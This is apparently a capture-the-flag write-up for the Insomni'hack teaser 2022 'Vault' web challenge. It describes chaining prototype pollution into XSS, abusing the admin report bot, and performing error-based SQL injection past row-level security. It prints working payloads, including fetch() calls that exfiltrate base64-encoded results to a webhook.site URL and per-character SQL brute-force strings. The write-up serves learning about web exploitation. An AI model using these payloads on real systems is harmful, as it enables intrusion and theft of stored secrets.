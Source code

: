 ```yaml
---
title: Insomni'hack teaser 2022 – Vault
date: '2022-01-31'
draft: false
authors: ['thebish0p']
tags: ['Web', "Insomni'hack teaser 2022", 'Prototype Pollution', 'SQLi', 'JavaScript', 'JSON']
summary: 'Prototype pollution which allows to run arbitrary js in admin context and retrieve the flag through the sql injection with an error based injection.'
---
```


## Vault

> by clZ
>
> A competing group has created a so-called secure Vault where people can store their secrets. We have serious doubts on their capacity to actually provide such a service. Could you show everyone that their solution is not as secure as they think?
>
> The Vault is available [here](http://vault.insomnihack.ch:5000/).
>
> They are so confident in their solution that they also released their [source code](https://static.insomnihack.ch/media/Vault_191c4ba6dc394e5713771ac4808a02330fd9583a-9516bb402ba3ca3401458c8d8e08d112cde7a9f7e9a5a9b349dc9ac403e1b48f_RR5HK9s.tgz).

We start by checking the web page and notice that there is a login, register and report link section. So my first thought was trying to find an XSS and report a link in order to grab an admin’s cookie for example but we had an issue we can’t register:

![Registration Error](/static/images/insomnihack-teaser-2022/registration_error.png)

We continue by checking the source code and manage to find a JavaScript Protocol Pollution bug that can lead to an XSS `http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script#page=secrets` as shown below:

![Alert XSS](/static/images/insomnihack-teaser-2022/xss_alert_1.png)

Time to try to get a callback from the admin through the report link function so we just add `fetch("https://webhook.site/388bc797-594f-4945-a407-5137e40ced43")` to our payload, report it and get a callback:

![First Callback](/static/images/insomnihack-teaser-2022/first_callback.png)

We noticed at this point that cookies on the site are `httpOnly` so we need something else:

```python
@app.route('/api/report', methods=['POST'])
def contact():
    url = request.form["url"]
    pattern = re.compile("^https?:\/\/")
    if len(url) > 0 and pattern.match(url):
        try:
            from selenium import webdriver
            from selenium.webdriver.common.keys import Keys
            from selenium.webdriver.chrome.options import Options
            import time
            session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
            adminsession = dict()
            adminsession["admin"] = 1
            adminsession["username"] = "admin"
            adminsession["password"] = os.environ.get("ADMIN_PWD")
            session_cookie = session_serializer.dumps(dict(adminsession))
            chrome_options = Options()
            chrome_options.headless = True
            chrome_options.add_argument('--no-sandbox')
            driver = webdriver.Chrome("/app/chromedriver", options=chrome_options)
            driver.set_page_load_timeout(30)
            driver.get("http://" + os.environ.get("VHOST") + "/")
            time.sleep(1)
            driver.add_cookie({"name": "session", "value":session_cookie,"httpOnly": True})
            driver.get(url)
            time.sleep(30)
            driver.close()
            return {'status':'OK'}
        except:
            return {'status':'KO','msg':'Error checking page'}
    return {'status':'KO','msg':'Invalid URL'}
```

We recheck the `app.py` file and notice that the `username` parameter in `/api/stats` is prone to SQL injection.

```python
@app.route('/api/stats')
def stats():
    if not "admin" in session or session["admin"] != 1:
        return {'status':'KO', 'msg': 'You are not admin'}
    else:
        try:
            conn_str = ("Driver={ODBC Driver 17 for SQL Server};"
                "Server=db,1433;"
                "Database=Vault;"
                "UID=" + session["username"] + ";"
                "PWD=" + session["password"])
            conn = pyodbc.connect(conn_str)
            cursor = conn.cursor()
            sql = "SELECT inserttime FROM dbo.Stats WHERE username = '" + request.args.get("username") + "'"
            cursor.execute(sql)
            res=cursor.fetchall()
            ret=[]
            for row in res:
                ret.append({'inserttime':row[0]})
            cursor.close()
            conn.close()
            return {'status':'OK','results':ret}
        except:
            return {'status':'NOK'}

```

We continue by adding an injection to our payload `fetch("/api/stats?username=admin' union select 123 --").then(x => x.text()).then(x=>{location='https://webhook.site/32903bb4-075a-4196-933d-2d558ae4a216/?secrets='+btoa(x)})` but we base64 it and then eval the decoded value in order for it to work: 

```
http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,eval(atob(%27ZmV0Y2goIi9hcGkvc3RhdHM/dXNlcm5hbWU9YWRtaW4nIHVuaW9uIHNlbGVjdCAxMjMgLS0iKS50aGVuKHggPT4geC50ZXh0KCkpLnRoZW4oeD0%2be2xvY2F0aW9uPSdodHRwczovL3dlYmhvb2suc2l0ZS8zMjkwM2JiNC0wNzVhLTQxOTYtOTMzZC0yZDU1OGFlNGEyMTYvP3NlY3JldHM9JytidG9hKHgpfSk7%27))//&__proto__[dataType]=script#page=secrets
```

…and get a callback as shown below:

![successful_injection](/static/images/insomnihack-teaser-2022/successful_injection.png)

After several failed attempts of selecting the flag from the database we notice that `install.sql` has a `SecurityPredicate` which prevents access from different users to specific rows:

```sql
DROP SECURITY POLICY IF EXISTS dbo.SecurityPolicy;
GO
DROP FUNCTION IF EXISTS dbo.SecurityPredicate;
GO
CREATE FUNCTION dbo.SecurityPredicate
(
  @UserName nvarchar(32)
)
RETURNS TABLE
WITH SCHEMABINDING
AS RETURN
(
  SELECT ok = 1 WHERE USER_NAME() = @UserName
);
GO

CREATE SECURITY POLICY dbo.SecurityPolicy
ADD FILTER PREDICATE dbo.SecurityPredicate(UserName)
ON dbo.Vault WITH (STATE = ON, SCHEMABINDING = ON);
GO
```

After some researching, I find this article named [Beware of Side-Channel Attacks in Row-Level Security in SQL Server 2016](https://www.mssqltips.com/sqlservertip/4379/beware-of-sidechannel-attacks-in-rowlevel-security-in-sql-server-2016/) explaining how to bypass this Predicate by causing an error like a zero division error so we tried to cause an error while trying to bruteforce each character of the flag.

Unfortunately, the CTF ended at this time and didn’t manage to finish the challenge on time but the injection required is shown below:

```sql
select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,1,1))-GUESS)=1
```

Finally what needs to be done is just looping through the characters of secret_value and sending for each one this payload:

```js
fetch('/api/stats?username=${encodeURIComponent(' union select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,${pos},1))-GUESS)=1;-- -')});`
```
